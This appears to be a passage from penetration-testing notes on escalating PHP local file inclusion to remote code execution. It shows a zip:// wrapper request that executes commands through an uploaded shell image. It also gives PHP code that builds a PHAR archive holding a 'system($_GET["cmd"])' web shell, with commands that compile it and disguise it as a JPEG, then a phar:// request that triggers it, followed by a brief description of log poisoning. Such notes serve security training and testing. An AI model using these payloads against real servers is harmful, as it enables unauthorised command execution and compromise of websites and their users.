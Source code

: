```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### PHAR upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This can be compiled to phar file now

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

To use this:&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

**Note**: There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the phpinfo() page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).

### Log poisoning

Writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code.&#x20;

<figure><img src="../../.gitbook/assets/File Inclusion (php, nodejs,etc)-2.png" alt=""><figcaption></figcaption></figure>
